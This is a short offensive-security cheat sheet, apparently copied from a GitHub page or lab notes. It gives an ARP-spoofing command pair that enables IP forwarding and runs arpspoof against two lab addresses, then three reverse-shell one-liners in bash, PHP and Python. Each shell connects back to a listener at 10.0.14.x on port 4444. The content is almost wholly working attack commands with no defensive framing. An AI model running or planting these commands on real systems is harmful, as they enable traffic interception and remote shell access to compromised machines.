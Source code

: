 ### ARP spoofing
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i tap0 -t 10.13.37.100 -r 10.13.37.101
```

### reverse shell
bash
```bash
bash -i >& /dev/tcp/10.0.14.22/4444 0>&1
```

php one line (bash)
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.14.10/4444 0>&1'"); ?>
```

python
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.14.22",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

